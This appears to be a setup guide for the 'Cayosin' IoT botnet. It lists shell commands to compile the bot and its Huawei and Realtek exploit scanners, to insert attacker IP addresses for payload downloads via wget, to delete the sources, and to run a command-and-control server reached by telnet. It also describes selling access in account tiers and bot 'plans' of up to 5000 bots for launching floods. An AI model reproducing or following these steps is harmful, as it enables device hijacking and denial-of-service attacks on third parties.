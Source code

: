 tested and working on centos 6, 6.9 and 7.7

yum update -y; yum install wget python gcc nano screen httpd php -y; service httpd start; ulimit -n 999999

nano /usr/include/bits/typesizes.h

if '#define __FD_SETSIZE' is set to 1024, change it to 99999, otherwise CTRL + X to quit

change ips in:
- /bot/main.c
- /bot/huawei_scanner.c search for 'wget'
- /bot/realtek... .c search for 'wget'
- /CayosinCNC.c look for iplookup and change the ip there

gcc bot/*.c -o bp -pthread; python Cayosin.py fff 179.43.154.140  cayosin; rm -rf bot; mv iplookup.php /var/www/html

gcc -o cnc CayosinCNC.c -pthread; rm -rf CayosinCNC.c; rm -rf Cayosin.py; rm -rf cross-compiler-*

*You have the ability to make each account admin/superadmin/common.
"admin" Gives the ability to add/kick users and force unmute all clients. 
"superadmin" Gives all regular admin abilities, as well as IP Ban/Unban.
"common" Only allows the sending of floods, use of Tools and Server Commands.

*You must also select their bot plan.
"noob" gives control over 0 bots
"plan1" gives control over 100 bots
"plan2" gives control over 1000 bots
"plan3" gives control over 5000 bots
"all" gives them control over all bots

And their Plan Expiry Date (Format: 00/00/0000) (day/month/year)

nano logins.txt

YOUR_USERNAME YOUR_PASSWORD superadmin all 30/12/9999

screen ./cnc 420 850

hold down CTRL, then hold down A and then press D

CNC port = 65525

telnet 133.70.150.140 65525

with putty you have to use 'RAW'

cmd to add a user:

adduser spotuser spotpass superadmin all 13/04/2022
